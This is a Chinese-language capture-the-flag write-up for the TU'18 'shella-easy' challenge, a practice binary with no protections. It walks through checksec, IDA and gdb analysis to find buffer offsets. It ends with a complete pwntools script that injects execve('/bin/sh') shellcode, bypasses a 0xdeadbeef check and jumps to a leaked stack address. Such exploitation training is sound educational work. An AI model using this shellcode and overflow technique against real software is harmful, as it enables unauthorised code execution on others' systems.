




# 2.8 TU'18 shellaeasy
先查看程序

```python
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/home/vuln/nightmare/modules/06-bof_shellcode/tu18_shellaeasy/shella-easy'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
啥都没开，运行程序

```python
vuln@ubuntu:~/nightmare/modules/06-bof_shellcode/tu18_shellaeasy$ ./shella-easy
Yeah I'll have a 0xbfb59740 with a side of fries thanks
aaaaaaaaaa
```
使用IDA进行分析



从代码中可以看到，这个也是一个缓冲区溢出漏洞，但是有一个注意的地方，就是先要覆盖掉v5的值（设为0DEADBEEFh），然后才能正常溢出



查看v5到s之间的字节数，以及v5到eip之间的字节数

使用IDA查看

v5对应var\_8



s的地址为0x48，相差0x40，所以先构造第一部分的payload

```python
s = 'a' * 0x40 + p32(0xDEADBEEF)
f = open('input', 'w')
f.write(s)
f.close()
```
使用gdb查看s和eip之间的地址

```python
gef➤ b *main+126
Breakpoint 1 at 0x8048559
gef➤ r < input 6
Starting program: /home/vuln/nightmare/modules/06-bof_shellcode/tu18_shellaeasy/shella-easy < input
Yeah I'll have a 0xbffff560 with a side of fries thanks

Breakpoint 1, 0x08048559 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0
$ebx   : 0x0
$ecx   : 0xb7fcb5a0  →  0xfbad209b
$edx   : 0xb7fcc87c  →  0x00000000
$esp   : 0xbffff560  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$ebp   : 0xbffff5a8  →  0x00000000
$esi   : 0xb7fcb000  →  0x001b1db0
$edi   : 0xb7fcb000  →  0x001b1db0
$eip   : 0x08048559  →  <main+126> leave
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0073 $ss: 0x007b $ds: 0x007b $es: 0x007b $fs: 0x0000 $gs: 0x0033
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbffff560│+0x0000: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"    ← $esp
0xbffff564│+0x0004: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0xbffff568│+0x0008: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0xbffff56c│+0x000c: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
0xbffff570│+0x0010: 0x61616161
0xbffff574│+0x0014: 0x61616161
0xbffff578│+0x0018: 0x61616161
0xbffff57c│+0x001c: 0x61616161
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x804854c <main+113>       call   0x80483a0 <exit@plt>
    0x8048551 <main+118>       mov    eax, 0x0
    0x8048556 <main+123>       mov    ebx, DWORD PTR [ebp-0x4]
 →  0x8048559 <main+126>       leave
    0x804855a <main+127>       ret
    0x804855b                  xchg   ax, ax
    0x804855d                  xchg   ax, ax
    0x804855f                  nop
    0x8048560 <__libc_csu_init+0> push   ebp
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048559 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤

```
查看内存

```python
gef➤  search-pattern aaaaaaaaa
[+] Searching 'aaaaaaaaa' in memory
[+] In '[stack]'(0xbffdf000-0xc0000000), permission=rwx
  0xbffff560 - 0xbffff597  →   "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
  0xbffff569 - 0xbffff5a0  →   "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
  0xbffff572 - 0xbffff57b  →   "aaaaaaaaa[...]"
  0xbffff57b - 0xbffff584  →   "aaaaaaaaa[...]"
  0xbffff584 - 0xbffff58d  →   "aaaaaaaaa[...]"
  0xbffff58d - 0xbffff596  →   "aaaaaaaaa[...]"
  0xbffff596 - 0xbffff59f  →   "aaaaaaaaa[...]"
gef➤  i f
Stack level 0, frame at 0xbffff5b0:
 eip = 0x8048559 in main; saved eip = 0xb7e31637
 Arglist at 0xbffff5a8, args:
 Locals at 0xbffff5a8, Previous frame's sp is 0xbffff5b0
 Saved registers:
  ebx at 0xbffff5a4, ebp at 0xbffff5a8, eip at 0xbffff5ac
```
差值为0xbffff5ac - 0xbffff560 = 76

所以最终payload如下：

```python
payload = shellcode + (0x40 - len(shellcode))*'\x90' + p32(0xDEADBEEF)
payload += (76 - len(payload)) * '\x90' + p32(0xbf982060)
#先覆盖v5，再溢出
```
所以最终payload如下

```python
#!/usr/bin/python

from pwn import *

target = process('./shella-easy')

data = target.recvline()
leak = data.strip("Yeah I'll have a ")
leak = leak.strip(" with a side of fries thanks\n")
leak = int(leak, 16)

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
payload = shellcode + (0x40 - len(shellcode))*'\x90' + p32(0xdeadbeef)
payload += (76-len(payload))*'\x90' + p32(leak)

target.sendline(payload)
target.interactive()
```
